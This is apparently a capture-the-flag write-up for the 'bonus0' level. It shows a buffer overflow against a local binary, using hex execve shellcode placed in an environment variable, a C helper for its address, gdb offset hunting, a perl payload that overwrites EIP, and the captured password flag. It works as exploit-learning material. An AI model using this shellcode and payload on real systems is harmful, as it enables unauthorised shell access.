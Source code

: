 # bonus0

If we dissasemble the code, we see that we can copy 2 strings (get in stdin) in a larger string.

We want to execute a shellcode (actually we don't have any functions to exec `bin/ls` in the code).

It's impossible to do that because a shellcode is at least 23 char and the strings are 20 char...

An other way is to have the shellcode on an environnement variable and jump on this variable (do this by follow [this tutorial](https://www.hacktion.be/buffer-overflow-variable-environnement/)).

## Exploit
First, we can add the environnement variable that contains the shellcode.
```bash
export SHELLCODE="`perl -e 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`"
```
Then, we need to know the variable address, add this C script, compile and execute it
```c
/* /tmp/getenv.c */

/*
compile:
gcc -g -w /tmp/getenv.c -o /tmp/getenv
execute (pwd = /tmp)
./getenv SHELLCODE
*/
#include <unistd.h>

int main(int ac, char ** av) {
	if (ac < 2)
		printf("./getenv <env-var-name>");
	else
		printf("%s address: 0x%lx\n", av[1], getenv(av[1]));
	return 0;
}
```
```bash
> gcc -g -w /tmp/getenv.c -o /tmp/getenv && cd /tmp && ./getenv SHELLCODE && cd -
SHELLCODE address: 0xbffff845
```

Then, we need to know how to overwrite the EIP to jump to `0xbffff845`:
```
> gdb bonus0
(gdb) $ run
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
...
(SEGFAULT) -> Invalid $PC address: 0x42424242
EIP: 0x42424242 ('BBBB')
```
So to overwrite the EIP, we need to send the address on the second string.

Get the offset of the EIP using our pattern program:
```bash
[computer]
> ./pattern.py create 200
AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAfAAAeAAAdAAAcAAAbAAAaAAA_AAA^AAA]AAA[AAA@AAA?AAA>AAA=AAA<AAA;AAA:AAA9AAA8AAA7AAA6AAA5AAA4AAA3AAA2AAA1
... gdb on VM
> ./pattern.py search 'AA|A' 200
found at offset: 9

[VM]
> gdb bonus0
(gdb) $ run
 - 
01234567890123456789
 - 
AAA~AAA}AAA|AAA{AAAzAAAyAAAxAAAwAAAvAAAuAAAtAAAsAAArAAAqAAApAAAoAAAnAAAmAAAlAAAkAAAjAAAiAAAhAAAgAAAfAAAeAAAdAAAcAAAbAAAaAAA_AAA^AAA]AAA[AAA@AAA?AAA>AAA=AAA<AAA;AAA:AAA9AAA8AAA7AAA6AAA5AAA4AAA3AAA2AAA1
(SEGFAULT) => Invalid $PC address: 0x417c4141
EIP: 0x417c4141 ('AA|A')
```
The offset if 9.

Finally, we need to send the environnement variable with an offset of 9 on the second string and we need to entirely fill the first string to send data on the second string (if we not fill the first string with random values, all the string will be read in the first `p` call).
```bash
# first p()     | second p()
# filled with A | offset of 9 | environ var addr | to have at least 20 char (no '\0' at the end)
# A * 4095  \n  | BBBBBBBBB   | \x45\xf8\xff\xb  | BBBBBBB
> perl -e 'print "A"x4095 . "\n" . "B"x9 . "\x45\xf8\xff\xbf" . "B"x7 . "\n"' > /tmp/a ; cat /tmp/a - | ./bonus0
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

flag:
```
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

